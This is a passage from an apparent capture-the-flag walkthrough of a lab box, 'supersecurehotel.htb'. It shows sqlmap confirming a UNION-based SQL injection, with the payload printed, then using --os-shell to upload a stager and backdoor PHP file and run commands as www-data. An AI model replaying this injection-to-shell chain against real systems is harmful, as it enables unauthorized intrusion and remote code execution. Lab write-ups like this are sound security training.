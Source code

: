 ```

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: cod=-7675 UNION ALL SELECT NULL,NULL,CONCAT(0x7170706271,0x6e764e555853696742515051496368436c5663776178726d5551426552436d6c444e496b52614369,0x71717a7871),NULL,NULL,NULL,NULL-- -
---
[17:28:43] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9 (stretch)
web application technology: PHP, Apache 2.4.25
back-end DBMS: MySQL 5 (MariaDB fork)
[17:28:43] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/supersecurehotel.htb'

[*] ending @ 17:28:43 /2022-11-26/

```

VERY NICE. WE found a sql injection vulnerability. There are boolean-based blind injection, time-based blind injection, and UNION query injection.

##### sqlmap OS execution

We will use sqlmap to automatically create a shell.

```BASH
sqlmap -u http://supersecurehotel.htb/room.php?cod=1 --batch --os-shell
```

```
[17:31:16] [WARNING] unable to automatically retrieve the web server document root
what do you want to use for writable directory?
[1] common location(s) ('/var/www/, /var/www/html, /var/www/htdocs, /usr/local/apache2/htdocs, /usr/local/www/data, /var/apache2/htdocs, /var/www/nginx-default, /srv/www/htdocs, /usr/local/var/www') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
> 1
[17:31:16] [INFO] retrieved web server absolute paths: '/images/'
[17:31:16] [INFO] trying to upload the file stager on '/var/www/' via LIMIT 'LINES TERMINATED BY' method
[17:31:18] [WARNING] unable to upload the file stager on '/var/www/'
[17:31:18] [INFO] trying to upload the file stager on '/var/www/' via UNION method
[17:31:18] [WARNING] expect junk characters inside the file as a leftover from UNION query
[17:31:19] [WARNING] it looks like the file has not been written (usually occurs if the DBMS process user has no write privileges in the destination path)
[17:31:20] [INFO] trying to upload the file stager on '/var/www/html/' via LIMIT 'LINES TERMINATED BY' method
[17:31:22] [INFO] the file stager has been successfully uploaded on '/var/www/html/' - http://supersecurehotel.htb:80/tmpuviji.php
[17:31:23] [INFO] the backdoor has been successfully uploaded on '/var/www/html/' - http://supersecurehotel.htb:80/tmpbcnmc.php
[17:31:23] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> whoami
do you want to retrieve the command standard output? [Y/n/a] Y
No output
os-shell> id
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output: 'uid=33(www-data) gid=33(www-data) groups=33(www-data)'

```

